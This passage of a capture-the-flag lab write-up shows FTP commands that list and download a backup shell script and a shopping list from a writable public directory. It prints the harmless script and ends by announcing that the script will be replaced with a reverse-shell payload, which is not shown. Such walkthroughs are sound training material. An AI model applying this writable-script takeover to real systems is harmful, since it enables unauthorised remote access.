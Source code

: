 >>FOUND THE DIRECTORY THAT HAS BACKUP SHELL SCRIPT.  

```bash
ftp> cd public
250 Directory successfully changed.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 111      113           341 Nov 16  2020 backup.sh
-rw-rw-rw-    1 111      113            24 Nov 16  2020 shoppinglist.txt
226 Directory send OK.
```

>>TO DOWNLOAD THIS FILE TO THE LOCAL MACHINE.SET THE TRANSFER MODE TO "BINARY" AND USE "get" FILE NAME.TO GET THOSE FILE TO THE LOCAL MACHINE. 

```bash
ftp> binary
200 Switching to Binary mode.

ftp> get backup.sh
local: backup.sh remote: backup.sh
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.sh (341 bytes).
226 Transfer complete.
341 bytes received in 0.00 secs (228.5572 kB/s)

ftp> get shoppinglist.txt
local: shoppinglist.txt remote: shoppinglist.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for shoppinglist.txt (24 bytes).
226 Transfer complete.
24 bytes received in 0.00 secs (509.5109 kB/s)


root@ip-10-10-34-225:~# cat shoppinglist.txt 
The Polar Express Movie

root@ip-10-10-34-225:~# cat backup.sh 
#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!

# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server
```

>>NOW WE NEED A REVERSE SHELL.SO WE NEED TO MODIFY THE SCRIPT.HERE WE COMMENTED ALL THE CODE AND SETTING A PAYLOAD TO GET A REVERSE SHELL.
